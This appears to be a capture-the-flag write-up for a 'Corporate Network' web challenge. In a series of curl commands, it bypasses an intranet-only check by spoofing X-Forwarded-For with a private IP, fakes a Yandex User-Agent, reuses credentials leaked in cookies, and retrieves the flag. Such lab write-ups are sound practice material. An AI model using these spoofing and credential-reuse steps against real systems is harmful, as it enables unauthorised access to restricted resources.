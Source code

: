 # Corporate Network

Bypass an IP-based and browser-based access restriction designed to simulate a page only accessible from a company’s internal network (intranet).

```bash
curl -s http://141.85.224.118:8080/
```

Response:

```pgsql
You can access this page only from the company's intranet!
```

## Trick Internal IP via Headers

- Try X-Forwarded-For and X-Real-IP headers:

```bash
curl -s -H "X-Forwarded-For: 127.0.0.1" http://141.85.224.118:8080/
```
...Still blocked.

- Try a private LAN IP:

```bash
curl -s -H "X-Forwarded-For: 192.168.0.1" http://141.85.224.118:8080/
```

...New Response:

```pgsql
You need to use the default browser installed on your Windows Work Computer (Yandex) to access the intranet!
```
...now it's checking for a browser.

## Trick the User-Agent (Yandex Browser)

```bash
curl -i -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 YaBrowser/21.3.1.109 Yowser/2.5 Safari/537.36" \
     -H "X-Forwarded-For: 192.168.0.1" \
     http://141.85.224.118:8080/
```

Response Headers:

```pgsql
HTTP/1.0 401 Unauthorized
Set-Cookie: user=aladdin
Set-Cookie: password=opensesame
```

We now have credentials via cookies:
- user=aladdin
- password=opensesame

## Simulating a basic HTTP login

```bash
curl -u aladdin:opensesame \
     -A "YaBrowser/21.3.1.109" \
     -H "X-Forwarded-For: 192.168.0.1" \
     http://141.85.224.118:8080/
```

Response: **SSS{oooo0000hh_deeee3333p_bre3ach}**
